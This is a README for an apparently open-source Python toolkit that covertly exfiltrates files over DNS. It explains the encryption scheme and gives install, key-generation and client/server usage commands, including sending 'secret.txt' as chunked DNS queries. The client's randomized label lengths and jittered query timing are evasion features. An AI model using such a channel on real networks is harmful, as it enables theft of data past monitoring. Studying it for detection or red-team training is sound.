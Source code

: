 # DNS Exfiltration Client & Server (v2.5)

This toolkit demonstrates secure, authenticated DNS-based file exfiltration using modern cryptography:

- **Perfect Forward Secrecy** via ephemeral X25519 ECDH  
- **Authenticated encryption** using AES-GCM for confidentiality + HMAC-SHA256 for integrity  
- **Base32** payload encoding for DNS-safe transfers  
- **Chunked UDP DNS A queries** for transport  
- **Stateless session reassembly** on the server keyed by client UUID  

---

## 🔧 Components

### client.py

- Generates an ephemeral X25519 keypair per transfer  
- Sends your public key in Base32 chunks (`<id>-0-0-<pubkey>`)  
- Derives a per-transfer AES (32 B) + HMAC (16 B) key via HKDF  
- Encrypts your file with AES-GCM (12 B nonce)  
- Appends an HMAC-SHA256 tag to the ciphertext  
- Base32-encodes the combined blob, splits into **randomized-size** subdomains (≤ 52 chars of data) to vary label lengths  
- Issues DNS A queries with client-configurable inter-query delays (`--delay-low`/`--delay-high`)  
- Retries missing chunks up to `MAX_RETRIES`  

### server.py

- Listens on UDP port 53 for DNS A queries  
- Parses `<id>-<idx>-<total>-<fragment>` subdomains  
- On `idx=0,total=0`, reassembles client’s ephemeral public key and performs ECDH → HKDF  
- Buffers Base32 fragments, applies padding, decodes via `base64.b32decode`  
- Splits out the last 32 bytes as HMAC tag and verifies it, then AES-GCM decrypts  
- Writes plaintext to `output/<id>.bin` and cleans up idle sessions  

---

## 📥 Installation

```bash
git clone https://github.com/bufo333/python-dns-exfiltration-client-server.git
cd python-dns-exfiltration-client-server
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

---

## 🔒 Configuration

Create a `.env` in the project root for the server:

```ini
SERVER_PRIVATE_KEY=./server.key
```

- `server.key` must be a raw 32 B X25519 private key (no PEM header).  
- Generate one in Bash:

  ```bash
  python3 - << 'EOF'
  from cryptography.hazmat.primitives.asymmetric import x25519
  from cryptography.hazmat.primitives import serialization
  key = x25519.X25519PrivateKey.generate()
  raw = key.private_bytes(
    encoding=serialization.Encoding.Raw,
    format=serialization.PrivateFormat.Raw,
    encryption_algorithm=serialization.NoEncryption()
  )
  open('server.key','wb').write(raw)
  EOF
  ```

---

## 🚀 Usage

### Start Server

```bash
python server.py \
  --port 5300 \
  --domain example.com \
  --output-dir output
```

_By default, it reads `SERVER_PRIVATE_KEY` from `.env` (override with `--server-key`)._

### Run Client

```bash
python client.py \
  --server-ip    127.0.0.1 \
  --server-port  5300 \
  --domain       example.com \
  --server-pubkey server_public.key \
  --file-path    secret.txt \
  --delay-low    200 \
  --delay-high   500
```

- `--delay-low` / `--delay-high` specify the minimum/maximum inter-query delay in **ms** (default `200–500 ms`)  
- The client first exchanges keys (`0-0` subdomain) then sends encrypted + HMAC-tagged chunks:  
  ```
  <id>-<i>-<total>-<data>
  ```

---

## ⏱️ Client Throttling

To avoid overloading public recursive resolvers, the client inserts a randomized pause between each DNS query.  
**Recommended defaults:** `--delay-low 200`, `--delay-high 500` (i.e. 2–5 qps). Increase to `500–1000 ms` on unstable networks or reduce to `100–200 ms` in lab environments.

---

## 🔍 What HMAC Adds

- **Integrity**: ensures ciphertext wasn’t altered  
- **Authentication**: only someone with the HMAC key can produce valid tags  

---

## ⚙️ CLI Reference

**Server**:

```text
usage: server.py [-h]
                 [--port PORT]
                 [--output-dir DIR]
                 [--low LOW]
                 [--high HIGH]
                 [--domain DOMAIN]
                 [--server-key PATH]
```

**Client**:

```text
usage: client.py [-h]
                 [--server-ip IP]
                 [--server-port PORT]
                 [--domain DOMAIN]
                 [--server-pubkey PATH]
                 [--delay-low MS]
                 [--delay-high MS]
                 --file-path FILE_PATH
```

---

## 📁 Output

Decrypted files land in `--output-dir` (default `output/`). File names match the session ID.

---

## 🛡️ Security Notes

- Fresh ECDH key per transfer → **forward secrecy**  
- AES-GCM + HMAC → **confidentiality**, **integrity**, **authentication**  
- No persistent session state; idle sessions auto-cleaned  

---

## 📜 License & Author

**Author:** John Burns  
**Date:** 2025-05-07 
**License:** GPL-3.0  
```  

